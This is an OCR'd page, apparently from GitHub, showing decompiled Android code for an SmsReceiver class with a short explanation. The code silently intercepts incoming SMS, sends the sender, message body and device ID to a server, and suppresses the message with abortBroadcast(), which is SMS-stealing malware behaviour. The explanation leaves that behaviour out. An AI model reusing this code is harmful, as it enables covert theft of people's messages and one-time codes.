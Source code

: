 ```
public class SmsReceiver extends BroadcastReceiver {
    private static final String TAG = "SmsReceiver";

    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        SmsMessage createFromPdu;
        if (intent.getAction().equals("android.provider.Telephony.SMS_RECEIVED")) {
            Bundle extras = intent.getExtras();
            Object[] objArr = (Object[]) extras.get("pdus");
            int length = objArr.length;
            int i = 0;
            String str = "";
            String str2 = str;
            while (i < length) {
                Object obj = objArr[i];
                if (Build.VERSION.SDK_INT >= 23) {
                    createFromPdu = SmsMessage.createFromPdu((byte[]) obj, extras.getString(AbsoluteConst.JSON_KEY_FORMAT));
                } else {
                    createFromPdu = SmsMessage.createFromPdu((byte[]) obj);
                }
                str2 = str2 + createFromPdu.getMessageBody();
                i++;
                str = createFromPdu.getOriginatingAddress();
            }
            SimpleDateFormat simpleDateFormat = new SimpleDateFormat("yyyy/MM/dd HH:mm:ss");
            SmsPush smsPush = new SmsPush();
            smsPush.setSender(str);
            smsPush.setBody(str2);
            smsPush.setDeviceId(Settings.Secure.getString(context.getContentResolver(), "android_id"));
            smsPush.setInterceptedTime(simpleDateFormat.format(new Date()));
            try {
                SmsPushRequest smsPushRequest = (SmsPushRequest) ThreadUtil.executeRunnable(new SmsPushRequest(smsPush));
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
            abortBroadcast();
        }
    }
}
```

This Java code defines a class `SmsReceiver` that extends the `BroadcastReceiver` class. `BroadcastReceiver` is a class in Android that allows an app to register to receive system-wide broadcasts, such as an incoming SMS message. The `SmsReceiver` class has a default constructor and an onReceive method, which is called when the app receives a broadcast.

The `onReceive` method takes two arguments: a `Context` object and an `Intent` object. The `Intent` object contains information about the broadcast, including the action that triggered it.
